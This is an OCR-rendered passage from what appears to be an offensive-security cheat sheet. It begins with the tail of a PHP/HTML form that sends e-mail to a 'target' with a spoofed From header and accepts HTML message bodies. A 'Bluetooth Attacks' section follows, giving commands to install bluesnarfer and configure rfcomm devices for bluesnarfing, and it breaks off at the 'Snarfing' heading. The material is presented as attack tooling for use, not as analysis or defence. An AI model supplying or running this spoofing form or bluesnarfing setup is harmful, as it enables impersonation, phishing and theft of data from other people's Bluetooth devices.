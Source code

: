 \<input type="text" id="to" name="to"\>\<br\>\<br\>

\<label for="from"\>From:\</label\>\<br\>

\<input type="text" id="from" name="from"\>\<br\>\<br\>

\<label for="name"\>Name (optional):\</label\>\<br\>

\<input type="text" id="name" name="name"\>\<br\>\<br\>

\<label for="subject"\>Subject:\</label\>\<br\>

\<input type="text" id="subject" name="subject"\>\<br\>\<br\>

\<label for="message"\>Message \[HTML is supported\]:\</label\>\<br\>

\<textarea rows="6" cols="50" name="message"
form="emailform"\>\</textarea\>\<br\>\<br\>

\<input type="hidden" id="send" name="send" value="true"\>

\<input type="submit" value="Submit"\>

\</form\>

\<p\>An e-mail will be sent to the desired target with a spoofed From
header when you click Submit.\</p\>

\</body\>

\</html\>' ;

}

?\>

**=== END CODE ===**

## Bluetooth Attacks

### Bluesnarfing

<https://www.hacktoday.com/kali-linux-tutorial-hack-bluetooth/>

**Installing bluesnarfer**

sudo apt install bluesnarfer

**Configure rfcomm (if needed)**

mkdir -p /dev/bluetooth/rfcomm

mknod -m 666 /dev/bluetooth/rfcomm/0 c 216 0

mknod --mode=666 /dev/rfcomm0 c 216 0

hciconfig -i hci0 up

hciconfig hci0

**Snarfing**

*Assumes your Bluetooth interface name is hci0*
